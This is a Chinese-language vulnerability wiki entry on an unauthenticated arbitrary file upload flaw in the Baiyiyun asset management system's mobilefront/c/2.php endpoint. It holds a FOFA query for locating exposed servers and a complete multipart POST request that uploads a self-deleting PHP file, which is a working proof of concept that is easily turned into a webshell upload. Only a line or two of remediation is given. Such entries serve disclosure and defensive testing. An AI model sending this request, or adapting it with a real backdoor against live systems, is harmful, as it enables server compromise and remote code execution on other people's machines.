


# 百易云资产管理运营系统 mobilefrontc2.php 任意文件上传漏洞

# 漏洞描述

百易云资产管理运营系统 mobilefront/c/2.php 接口存在文件上传漏洞，未经身份验证的攻击者通过漏洞上传恶意后门文件，执行任意代码，从而获取到服务器权限。

# 影响版本

百易云资产管理运营系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="不要着急，点此"

POC/EXP：

POST /mobilefront/c/2.php HTTP/1.1
Host: 127.0.0.1
Content-Type: multipart/form-data; boundary=---------------------------289666258334735365651210512949
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest

-----------------------------289666258334735365651210512949
Content-Disposition: form-data; name="file1"; filename="2.php"
Content-Type: image/png

<?php phpinfo();unlink(__FILE__);?>
-----------------------------289666258334735365651210512949--

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
